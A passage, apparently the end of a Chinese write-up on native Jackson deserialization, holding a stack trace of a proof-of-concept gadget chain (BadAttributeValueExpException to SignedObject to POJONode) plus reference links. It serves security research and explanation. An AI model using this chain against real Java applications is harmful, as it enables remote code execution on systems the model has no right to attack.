readObject:86, BadAttributeValueExpException (javax.management)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
invokeReadObject:1058, ObjectStreamClass (java.io)
readSerialData:1900, ObjectInputStream (java.io)
readOrdinaryObject:1801, ObjectInputStream (java.io)
readObject0:1351, ObjectInputStream (java.io)
readObject:371, ObjectInputStream (java.io)
getObject:180, SignedObject (java.security)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
serializeAsField:689, BeanPropertyWriter (com.fasterxml.jackson.databind.ser)
serializeFields:774, BeanSerializerBase (com.fasterxml.jackson.databind.ser.std)
serialize:178, BeanSerializer (com.fasterxml.jackson.databind.ser)
defaultSerializeValue:1142, SerializerProvider (com.fasterxml.jackson.databind)
serialize:115, POJONode (com.fasterxml.jackson.databind.node)
serialize:39, SerializableSerializer (com.fasterxml.jackson.databind.ser.std)
serialize:20, SerializableSerializer (com.fasterxml.jackson.databind.ser.std)
_serialize:480, DefaultSerializerProvider (com.fasterxml.jackson.databind.ser)
serializeValue:319, DefaultSerializerProvider (com.fasterxml.jackson.databind.ser)
serialize:1518, ObjectWriter$Prefetch (com.fasterxml.jackson.databind)
_writeValueAndClose:1219, ObjectWriter (com.fasterxml.jackson.databind)
writeValueAsString:1086, ObjectWriter (com.fasterxml.jackson.databind)
nodeToString:30, InternalNodeMapper (com.fasterxml.jackson.databind.node)
toString:136, BaseJsonNode (com.fasterxml.jackson.databind.node)
readObject:86, BadAttributeValueExpException (javax.management)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
invokeReadObject:1058, ObjectStreamClass (java.io)
readSerialData:1900, ObjectInputStream (java.io)
readOrdinaryObject:1801, ObjectInputStream (java.io)
readObject0:1351, ObjectInputStream (java.io)
readObject:371, ObjectInputStream (java.io)
unserialize:98, SignedObject_POC (SerializeChains.JacksonSer)
main:45, SignedObject_POC (SerializeChains.JacksonSer)
```



参考文章：

https://infernity.top/2025/03/05/Jackson%E5%8E%9F%E7%94%9F%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/

https://xz.aliyun.com/news/12292
